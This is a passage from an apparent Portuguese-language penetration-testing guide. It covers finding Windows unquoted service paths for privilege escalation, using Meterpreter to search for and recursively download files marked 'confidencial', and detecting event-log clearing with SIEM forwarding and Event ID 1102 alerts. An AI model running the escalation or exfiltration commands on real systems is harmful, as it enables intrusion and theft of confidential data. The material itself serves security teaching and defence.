3. **Escalonamento via Serviços com Caminhos Não Delimitados (*Unquoted Service Paths*):** Identificar serviços do Windows instalados em pastas com espaço e sem aspas que permitem injeção de binários:
   ```cmd
   wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
   ```
4. **Exfiltração Segura em Lote e Compactada com Meterpreter:** Localizar documentos corporativos e exfiltrar recursivamente arquivos confidenciais:
   ```bash
   meterpreter > search -d C:\\Users -f *confidencial*.pdf
   meterpreter > download -r C:\\Users\\vitor\\Desktop\\Projetos/ /home/kali/exfiltrados/
   ```
5. **Mitigação e Detecção Forense de `clearev` em Ambientes Corporativos:**
   * **SIEM / Syslog Centralizado:** Encaminhar logs do Windows em tempo real para um servidor central (Splunk/Elastic/Wazuh), tornando o comando `clearev` inútil pois os logs já foram espelhados externamente.
   * **Alerta no Event ID 1102:** Configurar gatilho de alerta crítico imediato no SIEM para o Evento de Segurança 1102 (*"The audit log was cleared"*), indicando atividade hostil ativa na rede.
